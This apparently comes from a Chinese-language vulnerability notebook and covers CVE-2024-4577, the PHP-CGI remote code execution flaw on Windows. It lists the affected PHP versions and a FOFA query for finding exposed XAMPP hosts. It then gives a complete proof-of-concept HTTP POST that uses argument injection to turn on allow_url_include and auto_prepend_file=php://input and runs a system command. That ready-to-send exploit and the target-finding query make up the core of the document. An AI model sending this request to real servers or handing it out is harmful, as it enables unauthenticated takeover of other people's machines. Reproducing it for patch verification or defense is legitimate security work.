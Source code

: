 # PHP CGI Windows平台远程代码执行漏洞(CVE-2024-4577)

# 一、漏洞简介
<font style="color:rgb(53, 53, 53);">PHP 在设计时忽略 Windows 中对字符转换的Best-Fit 特性，当 PHP-CGI 运行在Window平台且使用了如下语系（简体中文936/繁体中文950/日文932等）时，攻击者可构造恶意请求绕过 CVE-2012-1823 补丁，从而可在无需登陆的情况下执行任意PHP代码。</font>

# 二、影响版本
```java
PHP 8.3 < 8.3.8 
PHP 8.2 < 8.2.20 
PHP 8.1 < 8.1.29
利用条件：
1、用户认证：无需用户认证
2、前置条件：默认配置
3、触发方式：远程
```

# 三、资产测绘
+ fofa`app="XAMPP" `
+ 特征

![1717781448311-7a65fa38-1b93-46b2-866e-bc4080028b76.png](./img/kDk7tGfPzFbz3N1v/1717781448311-7a65fa38-1b93-46b2-866e-bc4080028b76-703129.png)

# 四、漏洞复现
```java
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3d1+%add+auto_prepend_file%3dphp://input HTTP/1.1
Host: 
REDIRECT-STATUS:1
Content-type: text/html; charset=UTF-8
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

<?php system("whoami")?>
```

![1717781553755-883046d2-ce02-4bcc-95fe-c4c98e0f1bae.png](./img/kDk7tGfPzFbz3N1v/1717781553755-883046d2-ce02-4bcc-95fe-c4c98e0f1bae-406115.png)



> 更新: 2024-09-05 23:27:24  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tihl0itqro7zdhy5>